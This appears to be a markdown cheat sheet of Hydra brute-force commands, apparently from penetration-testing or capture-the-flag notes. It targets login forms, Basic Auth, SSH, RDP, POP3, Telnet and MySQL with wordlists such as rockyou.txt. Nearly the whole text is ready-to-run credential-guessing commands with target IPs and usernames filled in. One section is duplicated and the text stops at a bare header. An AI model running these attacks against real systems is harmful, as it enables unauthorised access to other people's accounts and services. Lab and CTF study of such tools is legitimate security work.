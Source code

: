 ## **Additional Hydra Examples**

- **`hydra -L users.txt -P rockyou.txt 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid Username or Password" -V -s 7654`** (identify exact parameters in the request)
- **`hydra -l admin -P ~/rockyou.txt -f 192.168.143.201 http-get /`** (Basic Auth)
- **`hydra -l kali -P usernames.txt ssh://ip`** (use **`l -p`** if you know username and password, else bruteforce using **`L -P`**)
- **`hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202`**

## **HTTP Form Post**

```bash
hydra 10.0.2.22 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l x -P ~/rockyou.txt -t 10 -w 30
```

- Bruteforces a single parameter to gain access.

## **POP3 Bruteforce**

```bash
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -f 192.168.1.10 -s 55007 pop3
```

- POP3 bruteforce with a valid username (**`natalya`**).

## **Telnet Bruteforce**

```bash
hydra -l james -P passwords.txt 10.2.2.23 telnet
```

- Telnet bruteforce with the username **`james`**.

## **MySQL Bruteforce**

```bash
hydra -l root -P ~/rockyou.txt sunset-midnight mysql -t 4
```

- MySQL bruteforce with the username **`root`**.

## HTTP Form Post Bruteforce:

```bash
hydra 10.0.2.22 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l x -P ~/rockyou.txt -t 10 -w 30
```

- Bruteforces a single parameter to gain access.

## POP3 Bruteforce with Valid Username:
